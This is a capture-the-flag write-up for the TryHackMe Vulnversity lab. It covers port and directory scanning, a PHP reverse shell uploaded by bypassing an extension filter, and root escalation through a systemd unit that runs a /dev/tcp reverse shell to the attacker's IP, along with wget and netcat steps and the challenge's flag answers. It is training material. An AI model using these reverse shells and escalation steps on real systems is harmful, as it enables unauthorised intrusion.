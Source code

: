 # Vulnsersity
**Category:** Web
## Challenge Details
TryHackMe Challenge: [Vulnersity](https://tryhackme.com/room/vulnversity).
Server IP address: 10.10.46.102
Local IP address: 10.8.73.170
Learn about active recon, web app attacks and privilege escalation.  
- Port scanning
- PHP reverse shell (file upload)
- Privilege escalation

## Write Up

### Reconnaissance  

Gather information about this machine using a network scanning tool called [nmap](https://nmap.org/download.html).  
Using `nmap -sV 10.10.46.102`, information about the services on the server are shown.  

![](images/1.png)  

- Scan the box, how many ports are open? **6**
- What is the most likely operating system this machine is running? **Ubuntu**
- What port is the web server running on? **Port 3333**

### Locating directories using GoBuster 

Using a fast directory discovery tool called [GoBuster](https://github.com/OJ/gobuster) you will locate a directory that you can use to upload a shell to.

```sh
sudo apt install gobuster
gobuster -u http://10.10.46.102:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](images/2.png)  

Upon visiting the directory `/internal/`, a file upload page was discovered.  

![](images/3.png)  

### Compromise the webserver  

When uploading a [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell), it appears that the file extension `.php` is not allowed. After brute-forcing with other extensions, `.phtml` seemed to be allowed.  
>.php
>.php3
>.php4
>.php5
>***.phtml***

To gain remote access to this machine, follow these steps:
1. Edit the php-reverse-shell.php file and edit the ip to be your IP address.
2. Rename this file to php-reverse-shell.phtml
3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 4444`
4. Upload your shell and navigate to http://10.10.46.102:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
5. You should see a connection on your netcat session

![](images/4.png)  

#### User Flag:
```
8bd7992fbe8a6ad22a63361004cfcedb
```

### Privilege Escalation 
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).  


In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).  
Using the command ```shfind / -user root -perm -4000 -exec ls -ldb {} \;```, the file that stands out appears to be `/bin/systemctl` as a service can be started to grant root privilege.  

![](images/5.png)  

File root.service will be used to attempt privilege escalation.
```sh
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.73.170/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

To gain root access to this machine, follow these steps:
1. Transfer root.service to the remote machine. This can be done by hosting a http service and downloading the file from the remote machine.
2. Enter ```python3 -m http.server```on the local machine.
3. Switch to the remote machine to download root.service into /tmp directory.
4. Enter ```wget http://10.8.73.170:8000/root.service
![](images/6.png)  
5. enable root.service using `systemctl enable /tmp/root.service`.
6. Start listener on local machine. `nc -lvnp 9999`.
7. Run root service on remote machine. `systemctl start root.service`

![](images/7.png)

Locate Root flag.  
![](images/8.png)

#### Root Flag:
```
a58ff8579f0a9270368d33a9966c7fd5
```